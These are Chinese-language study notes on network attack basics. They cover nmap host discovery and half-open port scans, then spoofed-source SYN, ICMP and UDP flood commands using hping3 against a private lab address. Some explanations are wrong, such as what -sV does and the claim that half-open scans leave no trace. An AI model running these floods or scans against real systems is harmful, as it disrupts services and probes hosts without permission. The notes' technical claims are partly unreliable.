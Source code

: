 ```
ARP断网攻击

中间人攻击
arp数据包无法被路由器转发
```



nmap主机发现

```shell
$ nmap -sn -n 192.168.254.0/24 -oG -     # -oG -   显示更直观  
# -n    不做dns反向解析，节约时间
这种主机发现实际上是通过发送arp的广播探测，而不是ping；如果用ping做主机发现，那么如果对方禁ping，将无法拿到准确的结果。

nmap 半开式扫描，默认
$ nmap -sS -p21,22,80 192.168.254.70    # 对主机的21，22，80做半开始扫描
$ nmap -p21,22,80 192.168.254.70  # 同上，-sS属于默认，可以省略
$ nmap -p- 192.168.254.70    #全端口扫描，也可以用  -p1-65535
$ nmap -sV 192.168.254.70   # 扫描常用1000个端口

# 半开式扫描只会经过tcp两次握手，第三次，客户端会向服务端返回RST标志位，重置连接。在目标机器不会留下痕迹，比较隐蔽。

- nmap主机发现过程分析：
如果向目标主机发送未经请求的ACK报文，那么目标主机将返回RST报文。
什么叫未经请求的ACK报文呢？
   正常tcp请求都是从syn请求报文开始的，而这里没有第一步syn请求，直接发ACK报文。目标收到请求不明白什么意思，会直接返回RST重置。只要目标有返回则代表在线，从而判断主机在线。
-sn选项：
扫描同一个网段：发送ARP请求
扫描不同网段： 发送icmp以及syn/ack请求

-PS，发送syn报文
-PA，发送ACK报文



```



**tcp协议与socket**

socket：ip+端口（识别不同主机的不同程序）

tcp连接实际上是两个socket的连接。 

http属于单向连接，短连接

**DOS攻击**

```shell
死亡之ping： ping ip地址 -l 65500 -t


hping3:  hping -S --flood -p 80 192.168.254.70
---
syn flood攻击：
$ hping3 -S -p 80 --flood --rand-source 192.168.254.70  # -S选项为发送syn攻击

icmp flood攻击：
$ hping3 --icmp --flood --rand-source 192.168.254.70

UDP flood攻击：
$ hping3 -udp -p 53 --flood --rand-source 192.168.254.70

```
